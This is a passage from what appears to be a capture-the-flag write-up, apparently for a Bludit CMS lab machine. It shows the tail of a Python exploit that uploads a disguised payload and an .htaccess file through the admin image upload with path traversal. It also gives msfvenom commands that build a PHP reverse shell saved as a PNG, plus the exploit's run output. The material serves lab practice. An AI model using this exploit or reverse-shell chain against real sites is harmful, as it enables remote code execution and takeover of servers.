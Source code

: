 ```python
                         "multipart/form-data",
                         {"Content-Type": "image/png", "filename":payload}
                        )}
    if override_uuid:
        data = {"uuid": "../../tmp/temp",
                "tokenCSRF":csrf_token}
    else:
        # On the vuln app, this line occurs first:
        # Filesystem::mv($_FILES['images']['tmp_name'][$uuid], PATH_TMP.$filename);
        # Even though there is a file extension check, it won't really stop us
        # from uploading the .htaccess file.
        data = {"tokenCSRF":csrf_token}
    headers = {"Origin":url,
               "Accept":"*/*",
               "X-Requested-With":"XMLHttpRequest",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",
               "Referer":url + "/admin/new-content",
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate",
    }
    cookies = {"BLUDIT-KEY":cookie}
    response = session.post(url + "/admin/ajax/upload-images", data=data, files=files, headers=headers, cookies=cookies)
    print("Uploading payload: " + payload)

if __name__ == "__main__":
    cookie = login(url, username, password)
    token = get_csrf_token(url, cookie)
    upload_evil_image(url, cookie, token, payload, True)
    upload_evil_image(url, cookie, token, payload2)
```

The exploit requires us to make a PHP reverse shell that we are going to save as an image file. It handily gives us the commands to run as well.

```bash
msfvenom -p php/reverse_php LHOST=tun0 LPORT=443 -f raw -b '"' > shell.png
echo -e "<?php $(cat shell.png)" > shell.png
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```

With the prep work all done, all thats left is to run the exploit.

```bash
$ python3 rce.py
cookie: 1pms0k7s04m51n7ia3c74pr2f3
csrf_token: 37c5d1b63cbee38f7a7f91f2abc5871a02bba8d0
Uploading payload: shell.png
Uploading payload: .htaccess
```


[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell